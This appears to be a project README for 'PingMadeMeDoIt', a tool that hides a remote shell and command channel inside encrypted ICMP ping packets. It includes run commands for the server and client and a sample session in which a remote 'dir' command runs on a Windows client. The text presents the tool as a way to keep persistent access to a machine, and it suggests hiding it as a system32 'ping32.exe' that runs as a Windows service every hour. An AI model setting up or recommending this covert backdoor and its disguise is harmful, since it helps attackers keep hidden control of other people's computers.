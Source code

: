 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

run server : python PingMadeMeDoIt.py
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

run client : python PingMadeMeDoIt.exe advanced x.x.x.x hello

example :

Server Side..

[root@yourmom ping]# python3.11 PingMadeMeDoIt.py
Listening for ICMP Echo requests...
Enter the response text to send : shellstart
Entered shell mode.
$ dir
result: shellresult:  Volume in drive C has no label.
 Volume Serial Number is A69D-9D16

 Directory of C:\Users\rickd\source\repos\CustomPing\CustomPing\bin\Release

07/30/2023  08:10 PM    <DIR>          .
07/30/2023  08:10 PM    <DIR>          ..
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Crypto.dll
07/30/2023  08:10 PM             9,728 CustomPing.exe
07/30/2023  08:10 PM            24,064 CustomPing.pdb
               3 File(s)      2,642,944 bytes
               2 Dir(s)  16,437,215,232 bytes free

$ shellexit
Shell mode exited.

<b>Client Side..</b>

C:\Users\yourmom\filled>CustomPing.exe advanced x.x.x.x good
Custom ICMP Echo Request sent successfully.
IP Address: x.x.x.x
Roundtrip Time: 3777 ms
Time to Live (TTL): 50
Buffer Size: 94 bytes
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==
Received command: dir
Send ping reply: shellresult:  Volume in drive C has no label.
 Volume Serial Number is A69D-9D16

 Directory of C:\Users\yourmom\filled

07/30/2023  08:10 PM    <DIR>          .
07/30/2023  08:10 PM    <DIR>          ..
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll
07/30/2023  08:10 PM             9,728 Deep.exe
07/30/2023  08:10 PM            24,064 Penetration.pdb
               3 File(s)      2,642,944 bytes
               2 Dir(s)  16,437,215,232 bytes free

Received shellexit. Exiting the loop.

